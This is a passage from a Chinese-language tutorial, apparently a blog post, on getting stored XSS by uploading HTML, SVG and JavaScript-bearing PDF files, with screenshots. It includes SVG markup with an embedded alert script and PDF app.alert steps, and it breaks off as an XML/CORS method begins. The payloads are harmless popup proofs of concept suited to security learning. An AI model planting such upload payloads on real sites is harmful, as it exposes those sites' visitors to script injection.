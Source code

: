 上传成功，可以看到我这里上传的html文件的url路径，下面尝试访问下这个路径，看看里面的html恶意弹窗代码会不会执行  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0JJXjA8siccxXTp22BU2tZibibmictUl6fudiazhxMhiaVrxZHa6nfTwhccsvUaibeEZpHsjoLHkMb1m8zJzDHwWO5iaPw/640?wx_fmt=png&from=appmsg "")  
  
可以看到我这里换个浏览器访问，也是成功执行XSS弹窗了的  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0JJXjA8siccxXTp22BU2tZibibmictUl6fud92vZSGWVqKCu8EOqXcD2QELoialNlyHXGfHuR2wsROefJn21RamDwJQ/640?wx_fmt=png&from=appmsg "")  
  
上传svg恶意文件也是一样的  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0JJXjA8siccxXTp22BU2tZibibmictUl6fudj5YBLFSQw7YSXnDfWZ5g98Crx0jGUTicdLO3wN8uWicVBdU7JYzJKFCA/640?wx_fmt=png&from=appmsg "")  
  
svg恶意弹窗代码如下：  
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svgPUBLIC"-//W3C//DTD SVG 1.1//EN""http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svgversion="1.1"baseProfile="full"xmlns="http://www.w3.org/2000/svg">
<polygonid="triangle"points="0,0 0,50 50,0"fill="#009900"stroke="#004400"/>
<scripttype="text/javascript">
alert(618);
</script>
</svg>
```  
  
也是一样换个浏览器访问，照样是可以成功执行弹窗的  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0JJXjA8siccxXTp22BU2tZibibmictUl6fud3z1y5w2HXuVtt2G7vdGO0VeYIWDUDfObUFMXzhuTS8rI3vqqH70APg/640?wx_fmt=png&from=appmsg "")  
### 制作pdf弹窗木马  
  
pdf编辑器下载地址如下：  
  
https://www.xunjiepdf.com/  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0JJXjA8siccxXTp22BU2tZibibmictUl6fudJictaqtCgpJuynrs15mc0T42IVeiar0LKdCpurGSFibw2kCGwmRrs38Sg/640?wx_fmt=png&from=appmsg "")  
  
直接打开然后新建空白页面，然后点击属性，然后点击右边的小点点  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0JJXjA8siccxXTp22BU2tZibibmictUl6fudskcwribMeEFTYdibtcP6vB72rFA3E0C6KzjpPkxnmsHBgngtLQffaxsw/640?wx_fmt=png&from=appmsg "")  
  
然后出现下面的选项框，点击新增js代码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0JJXjA8siccxXTp22BU2tZibibmictUl6fudFgFjpGdOyVPwhtFSsAhR3iapCq77iabUPiamibQuuEJEA6hD2t0dibMAmEg/640?wx_fmt=png&from=appmsg "")  
  
写入app.alert(618);  
 js代码，然后保存到本地  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0JJXjA8siccxXTp22BU2tZibibmictUl6fudQHxMCTc29FyNs3059F8PY3gqZW6xqS5yPwakS0d6DtmWfEen24P61A/640?wx_fmt=png&from=appmsg "")  
  
然后也是按照上面的一样步骤，也是可以打出一个存储型XSS漏洞  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0JJXjA8siccxXTp22BU2tZibibmictUl6fudnOYAFp4HjSMMwfDG0jjGevDBIl0EXaMw8aAiabJLBicRMHqWQSiabBKdA/640?wx_fmt=png&from=appmsg "")  
### 上传XML文件打XSS漏洞  
  
**上传xml文件必须CORS允许所有域 CORS 跨域资源请求(允许我们网站加载其他网页代码)**  
- xml它需要上传2个文件  
  
